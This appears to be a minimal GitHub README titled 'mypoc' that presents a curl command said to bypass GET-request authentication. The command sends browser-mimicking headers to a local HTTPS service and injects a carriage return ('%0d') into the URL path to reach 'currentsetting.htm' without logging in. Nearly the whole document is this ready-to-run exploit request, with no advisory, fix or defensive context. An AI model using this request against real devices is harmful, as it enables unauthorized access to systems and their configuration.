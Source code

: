# mypoc
Through following curl command can bypass get request authentication
```curl -i -s -k -X $'GET' \
    -H $'Host: 127.0.0.1:8443' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-Fetch-Dest: document' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-Site: none' -H $'Sec-Fetch-User: ?1' -H $'Te: trailers' -H $'Connection: close' \
    $'https://127.0.0.1:8443/index.htm%0dcurrentsetting.htm'
```
